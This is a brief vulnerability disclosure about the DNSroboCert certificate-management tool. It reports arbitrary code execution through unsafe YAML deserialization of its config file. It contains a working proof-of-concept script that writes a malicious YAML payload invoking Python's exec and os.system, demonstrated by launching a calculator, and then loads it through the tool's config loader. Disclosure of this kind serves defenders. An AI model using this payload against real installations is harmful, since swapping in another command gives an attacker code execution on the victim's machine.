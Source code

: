 # Description

`DNSroboCert` is designed to manage Let's Encrypt SSL certificates based on DNS challenges which is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip install dnsrobocert
```

### Run exploit.py
```
import os
#os.system('pip install dnsrobocert')
from dnsrobocert.core import config
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(exploit)
config.load('config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
